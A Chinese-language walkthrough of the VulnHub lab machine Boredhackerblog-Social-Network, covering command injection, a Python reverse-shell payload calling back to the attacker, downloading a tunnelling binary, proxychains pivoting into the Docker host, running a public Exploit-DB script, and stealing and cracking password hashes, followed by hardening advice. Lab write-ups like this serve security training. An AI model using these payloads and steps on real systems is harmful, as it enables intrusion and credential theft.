

## 概述

本文档完整复现 VulnHub 靶机 **Boredhackerblog-Social-Network** 的渗透测试攻击链。该靶机模拟了一个部署在 Docker 容器中的社交网络应用，攻击路径涵盖 Web 层代码注入、容器环境识别、内网探测与代理搭建、宿主机服务漏洞利用、凭据窃取与破解、最终 SSH 登录的完整实战流程。

> **靶机来源**：[VulnHub - Boredhackerblog-Social-Network](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)  
> **适用场景**：OSCP 风格实战练习、Docker 环境渗透测试、内网横向移动技术演练

---

## 攻击链全景图



---

## 信息收集与服务枚举

### 主机发现

攻击机与目标靶机处于同一网段，使用 `nmap` 快速定位目标 IP：

```bash
sudo nmap -sn 192.168.140.0/24
```

确定目标 IP 为 `192.168.140.254`。

### 全端口扫描与服务版本探测

```bash
sudo nmap -p- -A -sV 192.168.140.254
```

扫描结果显示仅开放 **80 端口**（HTTP 服务）。

---

## Web 应用攻击面分析

### 目录枚举

使用 `dirsearch` 对 Web 目录进行爬取：

```bash
dirsearch -u http://192.168.140.254
```

发现隐藏后台管理页面：`/admin`（或类似路径）。

### 代码注入漏洞利用

访问后台页面，通过阅读前端/后端逻辑发现：用户输入直接传递给 `exec()` 函数执行，存在 **命令注入** 漏洞。

构造 Python 反弹 Shell Payload：

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.140.x",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

在 Kali 监听：

```bash
nc -lvnp 4444
```

成功获取 **Docker 容器内的低权限 Shell**（www-data 用户）。

---

## 容器环境识别与内网侦察

### 确认 Docker 环境

在容器内执行以下命令验证：

```bash
ls /.dockerenv          # 存在该文件即为 Docker 容器
cat /proc/1/cgroup      # 输出包含 docker 字样
```

确认当前处于 Docker 容器中，需实现 **容器逃逸** 或 **横向移动** 到宿主机。

### 内网网段探测

查看容器网络配置：

```bash
ip a
# 发现容器处于 172.17.0.0/16 网段（Docker 默认 bridge 网络）
```

编写 Bash 脚本批量 Ping 探测存活主机：

```bash
for i in $(seq 1 254); do
    timeout 1 ping -c 1 172.17.0.$i >/dev/null && echo "172.17.0.$i up"
done
```

发现除容器自身外，存在 **172.17.0.1**（Docker 网关/宿主机内网 IP）。

---

## 代理隧道搭建与横向移动

### 反向代理工具传输

由于攻击机无法直连内网段，需在容器上建立代理隧道。使用轻量级反向 SOCKS 代理工具（如 `frpc`、`reGeorg` 或文章中的 `a` 二进制）。

在 Kali 启动 HTTP 服务传输客户端：

```bash
python3 -m http.server 8000
```

容器内下载并授权：

```bash
wget http://192.168.140.x:8000/a
chmod +x a
```

### 建立反向 SOCKS 隧道

容器内执行客户端连接攻击机：

```bash
./a -rhost 192.168.140.x -rport 9999
```

攻击机服务端接收连接后，进入交互模式：

```
goto 1          # 进入节点 1
socks 1080      # 在节点上开启 SOCKS5 监听
```

### 配置 Proxychains

修改 `/etc/proxychains4.conf`：

```
socks5 127.0.0.1 1080
```

验证代理生效：

```bash
proxychains nmap -sT -Pn 172.17.0.1
```

---

## 宿主机服务发现与漏洞利用

### 宿主机端口扫描

通过代理对网关 IP（172.17.0.1，即宿主机内网接口）全端口扫描：

```bash
proxychains nmap -p- -sV 172.17.0.1
```

发现开放 **1337 端口**，服务版本信息泄露。

### Exploit-DB 搜索对应 EXP

根据服务版本在 Exploit-DB 搜索公开利用代码，定位到 **EDB-ID 36337**（Python 2 脚本）。

复制脚本至本地：

```bash
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .
```

### 通过代理执行远程利用

```bash
proxychains python2 36337.py 172.17.0.1
```

成功在 **宿主机** 获取 Shell（通常为 root 或高权限用户）。

---

## 凭据窃取与破解

### 搜集敏感文件

宿主机 Shell 下枚举文件系统：

```bash
ls /root
ls /home
find / -name "password*" -type f 2>/dev/null
```

发现 `passwords` 文件（或类似路径），内容包含用户名与哈希值：

```
username:$6$salt$hashvalue
```

### 密码哈希破解

使用 `john` 或 `hashcat` 破解 SHA-512 (Linux $6$) 哈希：

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# 或
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

破解结果：**`1337hack`**

---

## SSH 登录与持久化

### SSH 认证登录

使用破解得到的凭据登录宿主机 SSH（默认 22 端口）：

```bash
ssh username@192.168.140.254
# Password: 1337hack
```

成功获得宿主机稳定交互 Shell，完成完整渗透测试链路。

---

## 关键技术点总结

| 阶段 | 核心技术 | 工具/命令 | 关键难点 |
|------|----------|-----------|----------|
| **初始立足** | Web 代码注入 (exec) | dirsearch, Python 反弹 Shell | 绕过输入过滤、编码 Payload |
| **环境识别** | Docker 容器指纹 | `/.dockerenv`, `/proc/1/cgroup` | 区分容器与宿主机网络拓扑 |
| **内网穿透** | 反向 SOCKS5 代理 | frp/reGeorg/自定义客户端, proxychains | 穿越 NAT、防火墙限制 |
| **横向移动** | 代理链端口扫描 | proxychains + nmap | 扫描速度与噪音控制 |
| **漏洞利用** | Exploit-DB 公开 EXP | searchsploit, Python 2 兼容性 | 老旧 EXP 依赖环境适配 |
| **凭据获取** | 文件搜集 + 哈希破解 | find, john/hashcat, rockyou | 强哈希离线破解耗时 |

---

## 防御与缓解建议

1. **代码审计**：严禁将用户可控输入直接拼接进 `exec()`/`system()` 等危险函数；使用参数化命令执行或白名单校验。
2. **容器安全**：
   - 启用 `--cap-drop=ALL` 最小权限原则
   - 使用 `user namespace` 隔离 UID 映射
   - 部署 Falco、Sysdig 等运行时安全监控
3. **网络隔离**：
   - 容器网络与宿主机管理网络物理/逻辑隔离
   - 禁止容器主动发起反向连接（Egress 过滤）
4. **服务加固**：
   - 宿主机暴露服务最小化，及时修补已知 CVE
   - 禁用弱口令，强制密钥登录 SSH
5. **凭据管理**：
   - 避免明文/弱哈希存储密码
   - 使用密钥管理系统（Vault、Sealed Secrets）

---

## 相关资源与延伸阅读

- [[vulnhub-platform-resource-index]] — VulnHub 靶场平台资源合集与学习路径
- [[vulnhub-doubletrouble-writeup]] — Shellshock + Dirty COW 经典提权链复现
- [[vulnhub-hard-socnet2-writeup]] — 另一高难度社交网络靶机（文件上传、SQLi、内核提权、二进制溢出）
- [[vulnhub-pwned-writeup]] — Docker 组权限逃逸提权实战
- [[0w1club-training-shellshock-cgi-exploitation]] — Shellshock 漏洞原理与 CGI 环境变量注入实战
- [[peda-buffer-overflow-analysis-guide]] — PEDA 调试 Linux 缓冲区溢出与 ROP 链构造

---

## 附录：常用命令速查表

```bash
# 1. 主机发现
nmap -sn 192.168.x.0/24

# 2. 全端口版本探测
nmap -p- -sV -A target

# 3. 目录枚举
dirsearch -u http://target -e php,html,txt,bak

# 4. Docker 判断
ls /.dockerenv && cat /proc/1/cgroup

# 5. 内网存活扫描 (Bash 一行)
for i in {1..254}; do timeout 1 ping -c 1 172.17.0.$i >/dev/null && echo 172.17.0.$i; done

# 6. 反向 SOCKS 代理 (frp 示例)
# 服务端 frps.ini: bind_port = 7000
# 客户端 frpc.ini: type = tcp, local_ip = 127.0.0.1, local_port = 1080, remote_port = 9999
# 启动: ./frpc -c frpc.ini

# 7. Proxychains 配置
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

# 8. 代理扫描
proxychains nmap -sT -Pn -p 1337 172.17.0.1

# 9. Exploit-DB 搜索
searchsploit "service name version"

# 10. 哈希破解
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

---

> **免责声明**：本文档仅供授权渗透测试、CTF 竞赛、安全研究与教学使用。未经书面许可对非授权目标实施攻击属违法行为，作者不承担任何法律责任。

## 来源

- [0x00实验室-202108-202304_031](../sources/0x00实验室-202108-202304_031.md)
